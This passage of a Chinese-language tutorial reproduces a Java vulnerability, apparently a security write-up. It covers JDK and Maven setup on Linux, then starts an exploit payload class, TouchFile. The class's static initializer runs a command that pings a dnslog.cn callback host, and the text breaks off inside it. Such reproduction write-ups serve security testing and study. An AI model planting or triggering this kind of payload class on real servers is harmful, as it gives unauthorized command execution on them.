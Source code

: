 ![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVRLibASk3hAuibQFcgfwf5fCWXEftqgv1qh2dEFicoWWQNwxceeiaZ48dUhA/640?wx_fmt=png)

6、重新载入 profile

 从新载入之后执行如下命令，看到 java 的 version 之后证明 jdk 安装成功

```
source/etc/profile
java -version
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVRUGOI2yygUicicVy7yYZpkj4DcyO26MP7erN0iape0Qr7vlozh8mLCxiaVw/640?wx_fmt=png)

② 安装 maven（linux 为例）

```
wget https://mirrors.bfsu.edu.cn/apache/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.tar.gz
```

下载成功之后先创建个 mvn 的文件夹，然后执行以下命令：

```
# mkdir /usr/local/apache-maven
# sudo mv apache-maven-3.6.3-bin.tar.gz /usr/local/apache-maven
# sudo tar -xzvf /usr/local/apache-maven/apache-maven-3.6.3-bin.tar.gz -C /usr/local/apache-maven/
# sudo update-alternatives --install /usr/bin/mvn mvn /usr/local/apache-maven/apache-maven-3.6.3/bin/mvn 1
# sudo update-alternatives --config mvn
# sudo apt-get install vim
# vim ~/.bashrc
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVRVtAmGXnMNOIER8J0Qp747EQHBUh8RGtXVOTpodExDAQUdiaf5niaN1iag/640?wx_fmt=png)

将以下内容放到 bashrc 文件末尾处

```
export M2_HOME=/usr/local/apache-maven/apache-maven-3.6.3
export MAVEN_OPTS="-Xms256m -Xmx512m" 
export JAVA_HOME=/usr/local/java/jdk1.8.0_211
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVRNpXXMicMwfZaHcxz2VH9ia1ALhCupm7TvY28UGjibh9AE6fgnf82vb44g/640?wx_fmt=png)  

保存后执行以下命令测试 mvn 环境是否安装成功

```
mvn -version
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVRCYWSAVDjBXXjtAZreZeibq3iaX51ib5XeK3aibTc6zlsQ2JibC8Ql55SINg/640?wx_fmt=png)

可以看到 mvn 环境已经安装成功。

**0x04 漏洞复现**

环境安装好后就开始复现漏洞。先保存以下代码为 TouchFile.java 文件。（文件名可随便起）

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"ping", "xxx.dnslog.cn"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
```